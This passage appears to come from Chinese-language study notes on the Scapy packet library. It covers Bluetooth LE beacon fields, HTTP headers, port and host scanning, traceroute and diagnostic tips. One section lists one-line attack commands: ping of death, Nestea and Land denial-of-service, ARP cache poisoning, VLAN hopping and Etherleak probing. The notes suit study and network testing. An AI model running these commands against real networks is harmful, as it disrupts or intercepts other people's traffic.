        - 0x0d: "class_of_device"
        - 0x0e: "simple_pairing_hash"
        - 0x0f: "simple_pairing_rand"
        - 0x10: "sec_mgr_tk"
        - 0x11: "sec_mgr_oob_flags"
        - 0x12: "slave_conn_intvl_range"
        - 0x14: "list_16_bit_svc_sollication_uuids"
        - 0x15: "list_128_bit_svc_sollication_uuids"
        - 0x16: "svc_data_16_bit_uuid"
        - 0x17: "pub_target_addr"
        - 0x18: "rand_target_addr"
        - 0x19: "appearance"
        - 0x1a: "adv_intvl"
        - 0x1b: "le_addr"
        - 0x1c: "le_role"
        - 0x1d: "simple_pairing_hash_256"
        - 0x1e: "simple_pairing_rand_256"
        - 0x1f: "list_32_bit_svc_sollication_uuids"
        - 0x20: "svc_data_32_bit_uuid"
        - 0x21: "svc_data_128_bit_uuid"
        - 0x22: "sec_conn_confirm"
        - 0x23: "sec_conn_rand"
        - 0x24: "uri"
        - 0x25: "indoor_positioning"
        - 0x26: "transport_discovery"
        - 0x27: "le_supported_features"
        - 0x28: "channel_map_update"
        - 0x29: "mesh_pb_adv"
        - 0x2a: "mesh_message"
        - 0x2b: "mesh_beacon"
        - 0x3d: "3d_information"
        - 0xff: "mfg_specific_data"
- len

### 13.7.HCI_LE_Meta_Advertising_Report:`scapy.layers.bluetooth.HCI_LE_Meta_Advertising_Report`
> https://www.silabs.com/community/wireless/bluetooth/knowledge-base.entry.html/2017/02/10/bluetooth_advertisin-hGsf

- type
    - https://www.bluetooth.com/zh-cn/specifications/assigned-numbers/generic-access-profile/
    - 0: conn_und
        - ADV_IND: 可连接的无定向广告事件
    - 1
        - ADV_DIRECT_IND：可连接的定向广告事件
    - 2
        - ADV_NONCONN_IND：不可连接的无定向广告事件
    - 3
        - SCAN_REQ：扫描请求
    - 4: scan_rsp
        - CAN_RSP: 扫描响应
    - 5
        -  CONNECT_REQ：连接请求
    - 6
        - ADV_SCAN_IND：可扫描的无定向广告事件
- atype
    - 0: public
    - 1: random
- addr 
    - LEMAC地址
- len  
- data 
    - EIR_Hdr类型
- rssi
    - RSSI代表接收信号强度指示器. 它是在接收设备上看到的信标信号的强度

        RSSI |Range(meters)
        -|-
        -115 dBm | 2
        -84 dBm | 4
        -81 dBm | 10
        -77 dBm | 20
        -72 dBm | 30
        -69 dBm | 40
        -65 dBm | 60
        -59 dBm | 70

        - $距离 = 10^\frac{MP - Rssi}{10N}$
            - 单位: 米
            - MP: Measured Power测量功率
                -  例:Measured Power = -69 (for kontakt BLE beacons)
            - N: 常数取决于环境因素,范围2-4

### 13.8.HCI_LE_Meta_Advertising_Reports:`scapy.layers.bluetooth.HCI_LE_Meta_Advertising_Reports`
- len
    - 长度
- reports
    - HCI_LE_Meta_Advertising_Report列表

### 13.9.AltBeacon:`scapy.contrib.altbeacon.AltBeacon`
> AltBeacon是一个协议规范, 为邻近信标广告定义了消息格式. 设备发送AltBeacon邻近信标广告, 用于发信号通知其邻近的接收器. 发出的消息的内容包含接收设备可用于标识信标并计算其与信标的相对距离的信息. 接收设备可以将该信息用作上下文触发来执行过程并实现与靠近发射信标有关的行为.
- 用法
    ```Python
    # 加载AltBeacon
    load_contrib('altbeacon')

    ab = AltBeacon(
        id1='2f234454-cf6d-4a0f-adf2-f4911ba9ffa6',
        id2=1,
        id3=2,
        tx_power=-59,
    )

    bt.sr(ab.build_set_advertising_data())
    ```
- header
- id1
    - 组织id
    - UUID
        ```
        UUID                   = time-low "-" time-mid "-"
                                time-high-and-version "-"
                                clock-seq-and-reserved
                                clock-seq-low "-" node
        time-low               = 4hexOctet
        time-mid               = 2hexOctet
        time-high-and-version  = 2hexOctet
        clock-seq-and-reserved = hexOctet
        clock-seq-low          = hexOctet
        node                   = 6hexOctet

        Field                      Data Type                 Octet  Note

        time_low                   unsigned 32 bit integer   0-3    The low field of the timestamp
        time_mid                   unsigned 16 bit integer   4-5    The middle field of the timestamp                            
        time_hi_and_version        unsigned 16 bit integer   6-7    The high field of the timestamp multiplexed with the version number
        clock_seq_hi_and_reserved  unsigned 8  bit integer   8      The high field of the clock sequence multiplexed with the variant
        clock_seq_low              unsigned 8  bit integer   9      The low field of the clock sequence
        node                       unsigned 48 bit integer   10-15  The spatially unique node identifier
        ```
- id2
    - 组id
- id3
    - 信标id
- tx_power
    - RSSI值
- mfg_reserved
    - MFG RESERVED
    - 预留给制造商用于实现特殊功能

### 13.10.Eddystone_URL:`classscapy.contrib.eddystone.Eddystone_URL`
> Eddystone-URL帧使用压缩的编码格式广播URL, 以使其更适合有限的广告包. 一旦被解码, 该URL可以被任何能够访问互联网的客户端使用. 例如, 如果Eddystone-URL信标要广播URL https://goo.gl/Aq18zF, 则接收到此数据包的任何客户端都可以选择访问该URL

- 用法
    ```
    # 加载Eddystone
    load_contrib('eddystone')

    # Eddystone_URL.from_url(): 通过给定的URL返回一个Eddystone_URL对象
    #
    # build_set_advertising_data(): 生成能够被BLE发送的HCI_Cmd_LE_Set_Advertising_Data
    bt.sr(Eddystone_URL.from_url('https://scapy.net').build_set_advertising_data())
    ```
- tx_power
    - RSSI值
- url_scheme
    - 前缀编码方案
- url

### 13.11.Apple_BLE_Submessage:`scapy.contrib.ibeacon.Apple_BLE_Submessage`
> 苹果基础子消息

### 13.12.IBeacon_Data:`scapy.contrib.ibeacon.IBeacon_Data`
> iBeacon广播数据帧。在Apple_BLE_Submessage上创建。

- 用法
    ```
    #加载ibeacon
    load_contrib('ibeacon')

    p = Apple_BLE_Submessage()/IBeacon_Data(
    uuid='fb0b57a2-8228-44cd-913a-94a122ba1206',
    major=1, minor=2)

    # build_set_advertising_data: 传入Apple_BLE_Submessage或Apple_BLE_Frame返回能被BLE发送的HCI_Cmd_LE_Set_Advertising_Data
    bt.sr(p.build_set_advertising_data())
    ```
- uuid
    - 组织id
    - UUID
        ```
        UUID                   = time-low "-" time-mid "-"
                                time-high-and-version "-"
                                clock-seq-and-reserved
                                clock-seq-low "-" node
        time-low               = 4hexOctet
        time-mid               = 2hexOctet
        time-high-and-version  = 2hexOctet
        clock-seq-and-reserved = hexOctet
        clock-seq-low          = hexOctet
        node                   = 6hexOctet

        Field                      Data Type                 Octet  Note

        time_low                   unsigned 32 bit integer   0-3    The low field of the timestamp
        time_mid                   unsigned 16 bit integer   4-5    The middle field of the timestamp                            
        time_hi_and_version        unsigned 16 bit integer   6-7    The high field of the timestamp multiplexed with the version number
        clock_seq_hi_and_reserved  unsigned 8  bit integer   8      The high field of the clock sequence multiplexed with the variant
        clock_seq_low              unsigned 8  bit integer   9      The low field of the clock sequence
        node                       unsigned 48 bit integer   10-15  The spatially unique node identifier
        ```

- major
    - 进一步指定特定的iBeacon和用例。例如，这可以在UUID定义的更大区域内定义子区域。
- minor
    - 允许进一步细分区域或用例，由应用程序开发人员指定。
- tx_power
    - RSSI值

### 13.13.技巧

1. 第一步是打开基础蓝牙设备的HCI套接字
    -  `>>> bt = BluetoothHCISocket(0)`
2. 发现附近的设备
    1. 配置参数
       - `bt.sr(HCI_Hdr()/HCI_Command_Hdr()/HCI_Cmd_LE_Set_Scan_Parameters(type=1))`
    2. 启动扫描
       - `bt.sr(HCI_Hdr()/HCI_Command_Hdr()/HCI_Cmd_LE_Set_Scan_Enable(enable=True,filter_dups=False))`
    4. 开始抓包
        - `adverts = bt.sniff(lfilter=lambda p: EIR_CompleteLocalName in p, prn=lambda x:(x.reports[0].addr,x.getlayer(EIR_CompleteLocalName).local_name))`
    3. 收到数据包后, 禁用发现模式
        - `bt.sr(HCI_Hdr()/HCI_Command_Hdr()/HCI_Cmd_LE_Set_Scan_Enable(enable=False))`
    
## 十四.HTTP
- 用法: 
```Python
load_layer("http")
```
### 14.1.HTTP:`scapy.layers.http.HTTP`

### 14.2.HTTPRequest:`scapy.layers.http.HTTPRequest`

<details>

- Method
    - GET
        - 请求一个指定资源的表示形式. 使用GET的请求应该只被用于获取数据.
    - HEAD
        - 请求一个与GET请求的响应相同的响应，但没有响应体.
    - POST
        - 用于将实体提交到指定的资源，通常导致在服务器上的状态变化或副作用. 
    - PUT
        - 用请求有效载荷替换目标资源的所有当前表示。
    - DELETE
        - 删除指定的资源。
    - CONNECT
        - 建立一个到由目标资源标识的服务器的隧道。
    - OPTIONS
        - 用于描述目标资源的通信选项。
    - TRACE
        - 沿着到目标资源的路径执行一个消息环回测试。
    - PATCH
        - 用于对资源应用部分修改。
- Path
- Http_Version
- A_IM
- Accept
- Accept_Charset
- Accept_Datetime
- Accept_Encoding
- Accept_Language
- Access_Control_Request_Headers
- Access_Control_Request_Method
- Authorization
- Cache_Control
- Connection
- Content_Length
- Content_MD5
- Content_Type
- Cookie
- DNT
- Date
- Expect
- Forwarded
- From
- Front_End_Https
- HTTP2_Settings
- Host
- If_Match
- If_Modified_Since
- If_None_Match
- If_Range
- If_Unmodified_Since
- Keep_Alive
- Max_Forwards
- Origin
- Permanent
- Pragma
- Proxy_Authorization
- Proxy_Connection
- Range
- Referer
- Save_Data
- TE
- Upgrade
- Upgrade_Insecure_Requests
- Upgrade_Insecure_Requests
- User_Agent
- Via
- Warning
- X_ATT_DeviceId
- X_Correlation_ID
- X_Csrf_Token
- X_Forwarded_For
- X_Forwarded_Host
- X_Forwarded_Proto
- X_Http_Method_Override
- X_Request_ID
- X_Requested_With
- X_UIDH
- X_Wap_Profile
- Unknown_Headers

</details>


### 14.3.HTTPResponse:`scapy.layers.http.HTTPResponse`

<details>

- Http_Version
- Status_Code
- Reason_Phrase
- Accept_Patch
- Accept_Ranges
- Access_Control_Allow_Credentials
- Access_Control_Allow_Headers
- Access_Control_Allow_Methods
- Access_Control_Allow_Origin
- Access_Control_Expose_Headers
- Access_Control_Max_Age
- Age       
- Allow     
- Alt_Svc   
- Cache_Control
- Connection
- Content_Disposition
- Content_Encoding
- Content_Language
- Content_Length
- Content_Location
- Content_MD5
- Content_Range
- Content_Security_Policy
- Content_Type
- Date      
- Delta_Base
- ETag      
- Expires   
- IM        
- Keep_Alive
- Last_Modified
- Link      
- Location  
- P3P       
- Permanent 
- Permanent 
- Pragma    
- Proxy_Authenticate
- Public_Key_Pins
- Refresh   
- Retry_After
- Server    
- Set_Cookie
- Status    
- Strict_Transport_Security
- Timing_Allow_Origin
- Tk        
- Trailer   
- Transfer_Encoding
- Upgrade   
- Vary      
- Via       
- WWW_Authenticate
- Warning   
- X_Content_Duration
- X_Content_Security_Policy
- X_Content_Type_Options
- X_Correlation_ID
- X_Frame_Options
- X_Powered_By
- X_Request_ID
- X_UA_Compatible
- X_WebKit_CSP
- X_XSS_Protection
- Unknown_Headers
</details>

TCP_client不好使!!!

## 十五.探测
### 15.1.ACK扫描
- `ans, unans = sr(IP(dst="www.slashdot.org")/TCP(dport=[80,666],flags="A"))`
- 未过滤的端口:
    - `[s[TCP].dport for s in ans]`
- 过滤的端口:
    - `[s[TCP].dport for s in unans]`

### 15.2.Xmas扫描
> 带有状态标志的段发送到封闭端口则应使用RST进行响应. 此行为应允许攻击者通过发送某些类型的规则破坏数据包(不同步或TCB不允许)来扫描关闭的端口, 并通过RST数据包检测关闭的端口

- `ans, unans = sr(IP(dst="192.168.1.1")/TCP(dport=666,flags="FPU"))`
    - F: FIN
    - P: PSH
    - U: URG
- 检查RST响应将显示目标上的关闭端口

### 15.3.IP扫描
> 一个较低级别的IP扫描可以用来枚举支持的协议
        
- `ans, unans = sr(IP(dst="192.168.1.1",proto=(0,255)),timeout=1)`
- `[s.proto for s, __ in ans]`

### 15.4.ARP_Ping
> 发现本地以太网主机的最快方法是使用ARP Ping方法

- `ans, unans = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="192.168.1.0/24"),timeout=2)`
- `ans.summary(lambda x: (x[1]['Ether'].src,x[1]['ARP'].psrc))`
    - `ans.summary(lambda x: (x[1].src,x[1].psrc))`
    - 发送包, 接收包 = x
- Scapy还包括一个内置的arping()函数, 它执行类似于上面的两个命令:
    - `arping("192.168.1.*")`

### 15.5.ICMP_Ping
- `ans, unans = sr(IP(dst="192.168.1.1-254")/ICMP())`
- `ans.summary(lambda x: x[1].sprintf("%IP.src% is alive"))`
    - `ans.summary(lambda x: x[1]['IP'].src)`

### 15.6.TCP_Ping
> 在ICMP回显请求被阻塞的情况下, 我们仍然可以使用各种TCP Ping, 比如下面的TCP SYN Ping:

- `ans, unans = sr(IP(dst="192.168.1.*")/TCP(dport=80,flags="S"))`
- `ans.summary(lambda x: x[1].sprintf("%IP.src% is alive"))`

### 15.7.TCP端口扫描
> 在每个端口上发送一个TCP SYN. 等待SYN-ACK或RST或ICMP错误

- `ans, unans = sr(IP(dst="target")/TCP(flags="S", dport=(1,1024)))`
- `ans.nsummary( lfilter=lambda x: (x[1].haslayer(TCP) and (x[1].getlayer(TCP).flags=='SA')))`

### 15.8.UDP_Ping
> 选择最有可能关闭的端口(开放的UDP端口可能会收到空数据包, 但会忽略它们). ICMP端口不可达, 则表示机器已启动. 

- `ans, unans = sr(IP(dst="192.168.*.1-10")/UDP(dport=0))`
- `ans.summary( lambda x: x[1].sprintf("%IP.src% is alive"))`

### 15.9.IKE扫描
> 我们尝试通过发送ISAKMP安全协会提案并接收答案来识别VPN集中器

- `res, unans = sr( IP(dst="192.168.1.*")/UDP() /ISAKMP(init_cookie=RandString(8), exch_type="identity,prot.")/ISAKMP_payload_SA(prop=ISAKMP_payload_Proposal()))`
- `res.nsummary(prn=lambda x: x[1].src, lfilter=lambda x: x[1].haslayer(ISAKMP))`

### 10.DNS Requests
- IPv4(A) request
    - `ans = sr1(IP(dst="8.8.8.8")/UDP(sport=RandShort(), dport=53)/DNS(rd=1,qd=DNSQR(qname="secdev.org",qtype="A")))`
    - `ans.an.rdata`
- SOA request
    - `ans = sr1(IP(dst="8.8.8.8")/UDP(sport=RandShort(), dport=53)/DNS(rd=1, qd=DNSQR(qname="secdev.org",qtype="A")))`
    - `ans.ns.mname`
    - `ans.ns.rname`
- MX request
    - `ans = sr1(IP(dst="8.8.8.8")/UDP(sport=RandShort(), dport=53)/DNS(rd=1,qd=DNSQR(qname="google.cn",qtype="MX")))`
    - `[x.exchange for x in ans.an.iterpayloads()]`

## 十六.攻击
### 16.1.畸形数据包
- `send(IP(dst="10.1.1.5", ihl=2, version=3)/ICMP())`

### 16.2.死亡之Ping
> ping 数据包巨大

- `send( fragment(IP(dst="10.0.0.5")/ICMP()/("X"*60000)))`

### 16.3.Nestea攻击
> 受到Nestea拒绝服务攻击的计算机几乎肯定会崩溃

```Python
>>> send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*10)) 
>>> send(IP(dst=target, id=42, frag=48)/("X"*116)) 
>>> send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*224))
```

### 16.4.地面攻击(Windwos专用)
- `send(IP(src=target,dst=target)/TCP(sport=135,dport=135))`

### 16.5.ARP缓存毒化
> 这种攻击通过VLAN跳变攻击来毒化ARP缓存, 从而阻止客户端加入网关
- 经典的ARP缓存毒化
    - `send(Ether(dst=clientMAC)/ARP(op="who-has", psrc=gateway, pdst=client), inter=RandNum(10,40), loop=1)`
- 用双802.1q封装的ARP缓存毒化
    - `send( Ether(dst=clientMAC)/Dot1Q(vlan=1)/Dot1Q(vlan=2) /ARP(op="who-has", psrc=gateway, pdst=client), inter=RandNum(10,40), loop=1)`


### 16.6.Ether_leaking
> Exploit Etherleak flaw, 网络设备驱动程序在对于小于46字节的包数据会进行填补. 多个网络设备驱动程序在填补数据包时使用以前的帧缓冲数据, 远程攻击者可以利用这个漏洞从受此漏洞影响的设备中获得一些敏感信息. Ethernet标准(IEEE 802.3)定义数据包的最小字段为46字节, 如果高层协议如IP提供的数据包小于46字节, 设备驱动程序必须填充数据段来迎合IEEE 802规定的最小帧大小规定, 而填充值一般是NULL数据. 但是许多Ethernet设备驱动程序没有正确按照标准实现进行操作, 对数据的填充没有使用NULL字节, 而重用了以前传输过的帧数据进行填补操作. 由于Ethernet帧缓冲区在内核内存空间分配, 因此通过分析这些填补数据可以获得一些系统敏感信息. 
- `sr1(IP(dst="172.16.1.232")/ICMP())`

### 16.7.ICMP_leaking
> 这是一个Linux 2.0的bug

- `sr1(IP(dst="172.16.1.1", options="\x02")/ICMP()) `

### 16.8.VLAN跳跃
> 在非常特殊的情况下, 双802.1q封装将使包跳转到另一个VLAN

- `sendp(Ether()/Dot1Q(vlan=2)/Dot1Q(vlan=7)/IP(dst=target)/ICMP())`

### 16.9.无线网嗅探
> 下面的命令将显示类似于大多数无线嗅探器的信息

- `sniff(iface="mon0", monitor=True, prn=lambda x:x.sprintf("Dot11Beacon:%Dot11.addr3%\t%Dot11Beacon.info%\t%PrismHeader.channel%\t%Dot11Beacon.cap%"))`

## 十七.路由跟踪
### 17.1.TCP_SYN路由跟踪

```
>>> ans, unans = sr(IP(dst="4.2.2.1",ttl=(1,10))/TCP(dport=53,flags="S"))
>>> ans.summary( lambda(s,r) : r.sprintf("%IP.src%\t{ICMP:%ICMP.type%}\t{TCP:%TCP.flags%}")) 
192.168.1.1 time-exceeded 
68.86.90.162 time-exceeded 
4.79.43.134 time-exceeded 
4.79.43.133 time-exceeded 
4.68.18.126 time-exceeded 
4.68.123.38 time-exceeded 
4.2.2.1 SA
```

### 17.2.UDP路由跟踪
> 因为UDP没有三次握手, 所以我们需要给一个应用负载(DNS, ISAKMP, NTP等)获得的响应

- `ans, unans = sr(IP(dst='dns server', ttl=(1,20)) /UDP()/DNS(qd=DNSQR(qname="google.cn")))`
- `ans.make_table(lambda x: (x[0].dst, x[0].ttl, x[1].src))`

### 17.3.DNS路由跟踪
- `ans, unans = traceroute("4.2.2.1",l4=UDP(sport=RandShort())/DNS(qd=DNSQR(qname="thesprawl.org")))`

## 十八.技巧
### 18.1.简单的ARP监控
> 这个程序使用了回调函数(参数prn). store参数被设置为0, 这样一来, sniff()函数就不会存储任何东西, 因此可以永远运行. 过滤器参数用于在高负载下获得更好的性能:过滤器应用于内核内部, Scapy只会看到ARP流量. 

```Python
from scapy.all import *
def arp_monitor_callback(pkt): 
    if ARP in pkt and pkt[ARP].op in (1,2): #who-has or is-at 
        return pkt.sprintf("%ARP.hwsrc% %ARP.psrc%")
sniff(prn=arp_monitor_callback, filter="arp", store=0)
```

### 18.2.识别局域网中的恶意DHCP服务器
- 问题
    - 您怀疑有人在您的LAN上安装了一个额外的、未经授权的DHCP服务器——可能是无意的, 也可能是恶意的. 因此, 您需要检查任何活动的DHCP服务器, 并确定它们的IP和MAC地址
- 办法
    - 使用Scapy发送一个DHCP发现请求并分析回复:

        ```Python
        >>> conf.checkIPaddr = False 
        >>> fam,hw = get_if_raw_hwaddr(conf.iface) 
        >>> dhcp_discover = Ether(dst="ff:ff:ff:ff:ff:ff")/IP(src="0.0.0.0",dst="255.255.255.255")/UDP(sport=68,dport=67)/BOOTP(chaddr=hw)/DHCP(options=[("message-type","discover"),"end"]) 
        >>> ans, unans = srp(dhcp_discover, multi=True) 
        ```

    - 在本例中, 我们得到了两个应答, 因此测试网络上有两个活动的DHCP服务器
        ```Python
        >>> ans.summary() 
        Ether / IP / UDP 0.0.0.0:bootpc > 255.255.255.255:bootps / BOOTP / DHCP ==>Ether / IP / UDP 192.168.1.1:bootps > 255.255.255.255:bootpc / BOOTP / DHCP 
        Ether / IP / UDP 0.0.0.0:bootpc > 255.255.255.255:bootps / BOOTP / DHCP ==>Ether / IP / UDP 192.168.1.11:bootps > 255.255.255.255:bootpc / BOOTP / DHCP
        >>> for p in ans: print p[1][Ether].src, p[1][IP].src 
        ```

### 18.3.Firewalking
- 过滤操作后的TTL递减, 只有未过滤的包生成超过ICMP TTL

    ```Python
    >>> ans, unans = sr(IP(dst="172.16.4.27", ttl=16)/TCP(dport=(1,1024))) 
    >>> for s,r in ans: 
            if r.haslayer(ICMP) and r.payload.type == 11: 
                print (s.dport)
    ```
- 发现子网在一个多网卡防火墙中, 用这个TTl, 只有防火墙的网卡的IP是可达的

    ```Pyhton
    >>> ans, unans = sr(IP(dst="172.16.5/24", ttl=15)/TCP()) 
    >>> for i in unans: 
            print i.dst
    ```

### 18.4.TCP时间戳过滤
- 问题
    - 许多防火墙包含一个规则来删除没有设置TCP时间戳选项的TCP包, 这在流行的端口扫描器中很常见. 
- 办法
    - 为了让Scapy到达目标目的地, 必须使用其他选项
    - `sr1(IP(dst="72.14.207.99")/TCP(dport=80,flags="S",options=[('Timestamp',(0,0))]))`

### 18.5.使用Wireshark查看包
- 问题
    - 您已经用Scapy生成或嗅探了一些包. 现在你想用Wireshark来查看它们, 因为它有先进的分组分析能力
- 办法
    - `packets = IP(src="192.0.2.9", dst=Net("192.0.2.10/30"))/ICMP()`
    - `wireshark(packets)`

### 18.6.操作系统识别
- ISN
    - Scapy可用于分析ISN(初始序列号)增量, 从而可能发现易受攻击的系统. 首先, 我们通过循环发送SYN探针,收集目标的响应
        - `ans, unans = srloop(IP(dst="192.168.1.1")/TCP(dport=80,flags="S"))`
    - 一旦我们获得了合理数量的响应, 我们就可以开始用类似这样的方法分析收集到的数据

        ```
        >>> temp = 0
        >>> for s, r in ans: 
        ...     temp = r[TCP].seq - temp 
        ...     print("%d\t+%d" % (r[TCP].seq, temp)) 
        ```
- nmap_fp
    - Scapy支持Nmap指纹识别(Nmap在4.20之前完成的旧的“第一代”指纹识别). 在Scapy v2中, 你必须先加载一个扩展模块:
        - `>>> load_module("nmap")`
    - 如果你已经安装了Nmap, 你可以使用它的活动操作系统指纹数据库与Scapy. 确保签名数据库的版本1位于以下指定的路径:
        - `>>> conf.nmap_base`
    - 然后你可以使用nmap_fp()函数实现与Nmap的OS检测引擎相同的探测:
        - `>>> nmap_fp("192.168.1.1",oport=443,cport=1)`
- p0f
    - 如果系统上安装了p0f, 就可以使用它从Scapy猜测操作系统的名称和版本(只使用SYN数据库). 首先, 确保p0f数据库存在于指定的路径
        - `>>> conf.p0f_base`
    - 例如, 从一个捕获的包猜测操作系统
        - `>>> sniff(prn=prnp0f) `

